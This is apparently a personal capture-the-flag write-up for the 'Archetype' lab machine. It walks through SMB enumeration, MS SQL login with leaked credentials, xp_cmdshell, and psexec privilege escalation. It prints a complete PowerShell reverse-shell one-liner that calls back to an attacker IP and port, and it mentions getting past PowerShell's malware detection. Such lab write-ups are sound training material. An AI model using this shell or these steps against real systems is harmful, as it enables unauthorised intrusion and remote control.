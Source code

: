 # Se screenshots

# Enumeration
### Initial port scan
```
export IP=10.10.10.27
sudo nmap $IP -p- -oA nmap/init-scan -v -Pn --disable-arp-ping
```
![[Pasted image 20210812101703.png]]
### SMB enum
List SMB shares as anonymous user if possible:
![[Pasted image 20210812102240.png]]

And thats really all the enumeration we need for this box.

# Explotation
## SMB exploit
A file is found and accessed as anonymous user under the "backups" share.
![[Pasted image 20210812102529.png]]

If we look inside it theres credentials for a user on the machine 'ARCHETYPE'(sql_svc) and the password. This should be the user that the ms sql server is running as.
## MS SQL Server
I use impackets mssqlient python package to login to the server with credentials from the config file. Install with `pip install impacket`.
![[Pasted image 20210812104027.png]]

mssqlclient.py has built-in command to configure xp_cmdshell.
![[Pasted image 20210812104227.png]]
From here we can run `xp_cmdshell <any command we want>` such as whoami, hostname, ipconfig, netstat to get further information on target.
![[Pasted image 20210812104612.png]]

We can also try to land a reverse shell as the current user to make further explotation easier.

I copied a ps reverse shell from payloadallthethings github page and put it in a file with '.ps1'-extension. 
![[Pasted image 20210812111017.png]]
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

Make sure to change the ip to your IP and remove the powershell command.
(Use `ip add | grep tun` to get the IP for the ovpn connection)
![[Pasted image 20210812111323.png]]

Make sure you're in the same folder as the shell and start a http server, I used python:
![[Pasted image 20210812111621.png]]

Start a listener at desired port: `nc -lvnp 4242`
Retrieve the shell from your web server via xp_cmdshell/powershell:
![[Pasted image 20210812112237.png]]

Powershell identified the script as malicious content.
![[Pasted image 20210812112200.png]]
After som googling I found out that the problem as this:

I removed the '.path' and then it could run.
![[Pasted image 20210812113031.png]]

Success.
![[Pasted image 20210812112947.png]]

The final shell was:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.72',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd) + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The user flag is found on the desktop:
![[Pasted image 20210812113233.png]]

## Privilege escalation
Afte looking around for som time as the sql_svc user, I found this file:
![[Pasted image 20210812114201.png]]
The user mounts the share backups as an administrator and the password is saved in clear text in this file.

Since we have admin credentials, psexec will probably work.
![[Pasted image 20210812115140.png]]

The flag is located at the desktop as usual.
![[Pasted image 20210812115121.png]]
# Post exploitation
SAM

SQL server

Alternative shells, nc.exe, python?

